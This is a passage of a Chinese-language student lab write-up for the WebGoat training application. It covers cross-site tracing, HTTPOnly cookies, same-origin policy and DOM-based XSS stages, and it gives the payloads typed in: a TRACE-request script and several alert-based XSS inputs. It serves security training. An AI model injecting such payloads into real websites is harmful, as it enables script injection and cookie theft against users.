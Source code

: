 先进入如下界面`http://localhost/WebGoat/attack?Screen=2&menu=900&transferFunds=main`;输入一个数字点击提交以后莫名其妙的就通过了？

 不太理解了

![image-20220506170505475](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220506170505475.png)

![image-20220506170710881](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220506170710881.png)

##### HTTPOnly Test

点击read cookie，write cookie等进行体验

![image-20220506172416740](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220506172416740.png)

##### Cross Site Tracing (XST) Attacks

输入以下代码

```html
<script>
    var xmlHttp = new ActiveXObject("MicrosoftXMLHTTP"); 
    xmlHttp.open("TRACE","./",false);
    xmlHttp.send();
</script>
```

显示结果如下

![image-20220506192949418](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220506192949418.png)

## lab1.5

#### AJAX Security

##### Same Origin Policy Protection

点击第二个链接体验跨域请求后就通过了这一题

![image-20220511165603010](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220511165603010.png)

##### LAB: DOM-Based cross-site scripting

stage1：输入`<img src=.http://localhost/WebGoat/images/logos/owasp.jpg./>`完成请求

![image-20220511165905338](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220511165905338.png)

stage2：输入`<img src="x" onerror="alert('XSS')">`

![image-20220511170418716](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220511170418716.png)

stage3：输入`    <iframe onload=javascript:alert('XSS')></iframe>`

![image-20220511170949632](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220511170949632.png)
